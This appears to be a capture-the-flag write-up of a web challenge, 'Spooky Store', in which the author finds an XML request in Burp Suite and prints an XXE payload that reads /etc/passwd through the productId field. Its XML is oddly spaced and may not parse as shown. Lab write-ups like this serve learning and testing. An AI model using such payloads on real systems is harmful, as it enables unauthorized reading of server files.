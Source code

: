 **Spooky Store [web]**
-- It's a simple webpage with 3 buttons, you got this :)
![enter image description here](https://lh3.googleusercontent.com/RW2Afg0HPHpL2N251IR9uLn0K9bCVz2GEtG2rls-Sy6sVrGA37Yu3Sze3vzuYue7tyrFSMrQcYGQ46A0YCc91fNCHYadJqokvAWQd0tq_dj4JRQJOjb8jolQjDR2VGjPLvZQJTG1LG2YdTVnvnax01Y-g8TabqfyFu85UWn2ZvHJcEFaOIgHuPb2_FNId8FdYYF6ZzKqiuXVF7gaZaihVpF7HryIbDuoUAeDUtyrBV1OYDNVSd0JURHQnxzNZG_syrHYDm9KX91zDd2izTDa7nXZd31GuAi78pdg1LBqtyh6PtHsvtPTQduZskTV9AkHii8CdKR2q2F6YUecC4bUVA8dwBerZfDpa_2mA2US6KNj2sLzzTUU8ajRDyWL5Nh_yRsajhjmHFEPm3I8nrw58DWWP3Houq29TJHrD5z4PNJjdPgy1lbvDfnh66suDhVZjz42byYNmvhWsqDmRrf3ClOtYA_2Mdtg6-9-Zgq28YBQS1uU1z0wk905lOtdCpq1SjLecselTiOfdkXu01Hj-gC0igQX7G3757YFt-Wd4LlYuWv5XL2pEFWPHKmCVQqXAO0YampyHfGduerXFUNw4vREHnkUdy9rpYloExM0A6So9uzwcrKjFMCKUCp7rfY0m8p6BaE-V-Ke_kwMdZ53GzQI2bTQpn8kxgJCy0vFBwatR2xC7WjX=w1341-h545-no)

there are three buttons and if you press on them , you will get some locations coordinate values are output so we need to check it with burp suite we see the request in XML form , first thing that comes to mind is if is vulnerable to **XXE attacks** 
![enter image description here](https://lh3.googleusercontent.com/-3uxlORgZ2Z579_T2Yn-M3DlvThkkBMIMVZESoaXP9CQlf9FGSSoMKm-7YxsORjem5d4hdlOIPnZp9IAwaMk2VBwKOIiqr4PMaSOD6cdPlm-EGOIX67OwHkgHK3dM-DT6OVnvW-N626wQRmqK6FZAQkXtDWeYDfV_HiVBoBjtafLM0w56nmU_jbebHhtJpA1U17sGCxsVvXPHIZzqyRiFrEIbdCuWXpwDUED6O6EydlNiDlM-rgewcqBgYepzIP_vpFCWarOTj-kLRAP87is0n28smOlko3BcLSZAIBxnc7zcDXl_gceUGjNGvSG7TUNpnJM6zcrEOtpHEFGuR1c74Ynsuk4y8GkMuYFQCsv6kWX2xw2nRLf6k_coas3P41sG78XCcsa0iTs1hLPUMk3DDV566-S3b6T4kdt3Pt_JtLzt07mx5Xwb0RP08OZI8f7BufJXpw3H5Jemo_g6eKfN15jHLaVOsMVl22gTkdjakmmA8qMzgLxGSdZwzh1WC7M83aJJVSg8_oqLOFPQ9t5sdLQR9aKrejmMeQNg0ZaTBcetl5KUY07Wm0Hlkk3nAUEI_qnLAMhLDIwulx3MvVT-siu5mSAPzqBI1G4wncgn94j0a5daYpfOEisKuBLzVojVMCgnhED_OL6aRNTTUi5oqkw460D37df1lemmGbJqDcSRdoLzgX4=w1282-h578-no)
    
    <? xml version = "1.0" encoding = "UTF-8"?> <locationCheck><productId>1</productId> </locationCheck>

### **Disclosing /etc/passwd **


![enter image description here](https://lh3.googleusercontent.com/5YPwmnf2MMxEwm9kgqyQPJSm6Des_Ys8qn-uyQQiTl3rQFiC9kuMvDLdQT449rOZcP7kQrZexRTIRafC6H4QXLaI1VbCv-KiAqd_lajZZG5m4SF7qa9Efn7mB7luXqk2-o0XXUcSAUVNeJuiNsOfFFvWsfXn0Cm1SyBN_NPyw3O4PVxaCYl75vioOiR-_WjvPuHJQ1IMOVa82Ji-WKj4vpaZi1w2mdsmJtHlswnK06934CG0ah81o7umCCE7vdiyFkUK82zIIdVoaTLwtwUFzSBKKr0RSSmM9p8ev3FS31s47Jw4nLhXOrH7JiGzilHDIO7nPf7LuM-CbnNQoXymmaiAP0GlNEKkkn9RmR7nQGvf_fiC56OBbXCJK0owM4UWkhFNcJ_-wkbcK5TEGE_f8WIbwwKC3E9mlYLz3Qv-3OnGsWX9DX1ujV1HUrqz8OG35amVAXH9IKC6MeIY_GZV79a81VTOHNgw38eufVdRymncABK37stIRB9bb-pglUD_MisHJ11VbVeIMrrsqHy4RKetMaUBNKM0kMX_fB6VfBR4QKBK_IVJ7nLZSUbJrP7T2uQ3DN1FgQAmSJkXlC-G-J8VsDVSZZLOhRR9sz2iCRNZ6wKpo38EbPY355phD45qxZWrpMWAzafs68t1PFvy0p15vwR1NXB_owVLvfEjHuSw2iIrSTFl=w1275-h601-no)

    <? xml version = "1.0" encoding = "UTF-8"?> <! DOCTYPE netspi [<! ENTITY xxe SYSTEM "file: /// etc / passwd">]> <locationCheck><productId>&xxe;</productId> </locationCheck>

    
![enter image description here](https://lh3.googleusercontent.com/ZXe56OxkQKHbMBZu31O4NZwhlFchP7FNaa55AypzgSnnmw5eOmlwXD6uXeh-IjPGNk33hDcoK88lXQ9VAPW8J3Jaw6KDlubkMksAxLwz_w0BNwBsSQ_bio3_e7EJWmPgXHWVGNUqUB4fb_0yx9jCtlSNeX2GKM59itZEqEwgm9U6CqKy6ekpvOgg-xunBLW1ZivYh-lT979DAf42oRV97sjMmq-kPo-TS4DANNo4PIcjzGoNd5hEhH0XHSSMdMMCSO5wETQ2e-VxD5WGq-gVbdGN-GBo9w223AMPlNVftygHmb7DVnjSG-Watyg2PksGtwhXZiMUQHFQYBqwfMFAQhcdsAnU876amqN3MSLFMHRepyi_c73sVZpBBZjBluCcerjy6vegyZ5-Aj93_Dq_DOzsqtGuLxl4txRkQ1km5tN7wFKb5hg8AZkVgaPWvqmbpZm5QO5fIOMCoGU-cy_zN3P9ur9GwwUqx1nHAmOd67gN71vt5o0Ebua3lgtWwfuZYNhMOffbF4I81rIeTSHVzpu1FSEP022nTs_IYaxNaAUgVOSj6F3c75yup0N5vfyHvdCHyHSc4tKUyXoiDAb3hhdH5bzx5_rYvpfRyYjzOnnZkAaDXlgFq8DbFGDbnpi7jEiTUKxwu6wgJ3C0K1Kyq6xUUTY83ZH-3e2GeDdolQokDsGkQvY2=w608-h360-no)